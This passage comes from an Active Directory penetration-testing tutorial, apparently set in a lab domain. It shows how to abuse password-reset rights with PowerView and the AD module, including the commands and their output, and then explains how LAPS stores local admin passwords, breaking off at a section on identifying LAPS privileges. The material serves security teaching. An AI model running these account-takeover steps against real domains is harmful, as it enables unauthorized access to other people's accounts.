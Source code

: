 ## Abusing PasswordReset from Windows

From Windows systems, we will use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). It will allow us to set the password for our target account:

#### Password Reset with Set-DomainUserPassword

```powershell
PS C:\Tools> Set-DomainUserPassword -Identity yolanda -AccountPassword $((ConvertTo-SecureString 'NewpasswordfromW1' -AsPlainText -Force)) -Verbose

VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'yolanda'
VERBOSE: [Set-DomainUserPassword] Password for user 'yolanda' successfully reset

```

#### Password Reset with Active Directory Module

```powershell
PS C:\Tools> Import-Module ActiveDirectory
PS C:\Tools> Set-ADAccountPassword yolanda -NewPassword $((ConvertTo-SecureString 'NewpasswordfromW2' -AsPlainText -Force)) -Reset -Verbose

VERBOSE: Performing the operation "Set-ADAccountPassword" on target "CN=Yolanda,CN=Users,DC=INLANEFREIGHT,DC=LOCAL".

```

## ReadLAPSPassword

Microsoft's [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) allows companies to manage their local admin passwords better: instead of having a shared password between local admins (which happens all the time), `LAPS` offers a simple method to make local admins with random and cryptographically strong passwords that rotate every 30 days (by default).

`LAPS` allows managing the local Administrator password (randomized, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorized users using `ACLs`. Passwords are protected in transit from the client to the server using Kerberos v5 and AES. Here is how it works:

- A `LAPS` client is installed on each computer. This client is responsible for periodically changing the local administrator password on the computer.
- The password is stored in Active Directory as an attribute of the computer object. This attribute is named `ms-MCS-AdmPwd`.
- To access the local administrator password for a computer, we can use the `LAPS` UI tool or PowerShell to retrieve the current password from Active Directory.
- The password is only visible to users granted permission to read it.

## Identifying LAPS Privileges
